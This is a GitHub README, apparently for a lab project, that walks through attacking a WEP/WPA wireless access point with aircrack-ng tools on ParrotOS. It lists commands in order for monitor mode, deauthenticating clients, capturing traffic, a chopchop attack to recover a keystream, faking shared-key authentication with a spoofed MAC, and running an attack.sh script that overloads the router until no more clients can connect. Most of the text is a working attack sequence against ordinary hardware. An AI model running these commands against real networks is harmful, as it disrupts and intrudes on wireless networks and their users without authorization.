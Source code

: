 # WEP_WPA_Bypass
  
Tested on TL-WR841N & ParrotOS because my Kali Linux do not support monitor mode on TL-WN725N USB Wifi, so I use Parrot, and wlan0 is replaced by <i>wlx9ca2f4fd78ac</i>


- All commands that I used
  - To see wireless interface, use `iwconfig`
  - To start monitor mode, use `airmon-ng start wlan0`
  - You can use option -c to send deauth attack to specific users.
  ```
  aireplay-ng -0 5 -a <AP's MAC> -c <IP's Client> wlan0mon
  ```
  ![image](https://github.com/hoangbui24/WEP_WPA_Bypass/assets/71567852/36d6f5f4-e763-4975-8714-2d794975eaff)
  - To see all access points, use.
  ```
  airodump-ng wlan0mon
  ```
  ![image](https://github.com/hoangbui24/WEP_WPA_Bypass/assets/71567852/a5b72f9b-aed3-4d91-9fb3-492e4513c7db)
  - To sniff packets between Client and access point, use.
  ```
  airodump-ng wlan0mon -c <channel> --bssid <mac AP> -w keystream 
  ```
  - If you do not have the .xor file, create it by using chopchop attack.
  ```
  aireplay-ng -h <Your device which you use to connect> -a <mac AP> wlan0mon
  ```
  ![image](https://github.com/hoangbui24/WEP_WPA_Bypass/assets/71567852/97bb6bf8-43bb-4d09-8794-04e629b33afe)
  ![image](https://github.com/hoangbui24/WEP_WPA_Bypass/assets/71567852/ad149d0a-7062-4b33-b3a4-1e572dc51e22) 
  - To fake SKA, use
  ```
  aireplay-ng -1 0 -e "Nhom 802.11" -y <keystream.xor> -a <MAC AP> -h AA:AA:AA:AA:AA:AA wlan0mon
  ```
  ![image](https://github.com/hoangbui24/WEP_WPA_Bypass/assets/71567852/de87245a-4bef-4b29-a673-68561f6d26dd)
  - Run attack.py, then you must open another terminal and run `airodump-ng wlan0mon -c <channel> --bssid <mac AP> -w keystream `
  ```
  ./attack.sh <number you want> <mac AP> <wireless adapter>
  ```
  ![image](https://github.com/hoangbui24/WEP_WPA_Bypass/assets/71567852/502d55a6-8136-4076-8cb7-eaa542d9b03b)
   > Below is overload, cannot be connected more
  ![image](https://github.com/hoangbui24/WEP_WPA_Bypass/assets/71567852/294b804f-8b2e-4c38-9751-b9cbc35987d8)


  





 
